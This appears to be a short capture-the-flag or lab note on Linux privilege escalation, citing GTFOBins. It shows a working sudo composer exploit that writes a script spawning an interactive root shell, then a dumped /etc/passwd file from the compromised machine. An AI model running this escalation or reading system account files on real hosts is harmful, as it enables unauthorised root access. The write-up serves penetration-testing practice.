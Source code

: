 https://gtfobins.github.io/gtfobins/composer/

![[Pasted image 20210505151402.png]]

## Exploit

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo /usr/bin/composer --working-dir=$TF run-script x
```

We are `root`.

# Passwd file

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```
